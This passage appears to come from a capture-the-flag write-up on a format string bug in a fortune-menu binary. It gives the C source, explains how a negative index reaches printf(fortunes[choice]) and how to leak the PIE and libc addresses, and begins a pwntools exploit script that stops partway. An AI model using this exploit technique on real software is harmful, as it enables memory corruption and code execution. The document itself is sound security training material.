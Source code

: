 ```c
        if (choice > 4) {
          puts("Invalid choice.");
          break;
        }
        putchar('\n');
        printf(fortunes[choice]);
        putchar('\n');
        break;
      }

      case 2: {
        printf("Your message: ");
        if (scanf("%99[^\n]s", custom_fortune) != 1)
          exit(1);
        custom_fortune[strcspn(custom_fortune, "%")] = '\0';
        break;
      }

      default:
        puts("Goodbye.");
        exit(0);
    }
  }
}

__attribute__((constructor))
void setup(void) {
  setvbuf(stdin, NULL, _IONBF, 0);
  setvbuf(stdout, NULL, _IONBF, 0);
  setvbuf(stderr, NULL, _IONBF, 0);
  alarm(60);
}
```

There is a FSB trigger code(`printf(fortunes[choice])`). Cause `choice` integer value can be nagative, so we can trigger FSB by writing address on `custom_fortune` global variable.

![2.png](2.png)

To leak the pie and libc bases, we can use binary addresses(`__dso_handle`, `plt.got`).

And we can modify `custom_fortune` variable. When we write the variable, it has a simple preventing FSB code. The function can write NULL byte, so we can exploit FSB vulnerability. After that, it is just simple FSB challenge.

The exploit code is as follows:

```python
from pwn import *

def FSB(idx):
    p.sendlineafter(b"> ", b'1')
    p.sendlineafter(b"[0-4]: ", str(idx).encode())
    p.recvline()

def setMsg(msg):
    p.sendlineafter(b"> ", b'2')
    p.sendlineafter(b": ", msg)

def setPayload(msg):
    p.sendlineafter(b"> ", b'2')
    p.sendlineafter(b": ", p64(addr) + msg)

def makeAddress_(value, off, lever=False):
    payload = b''
```
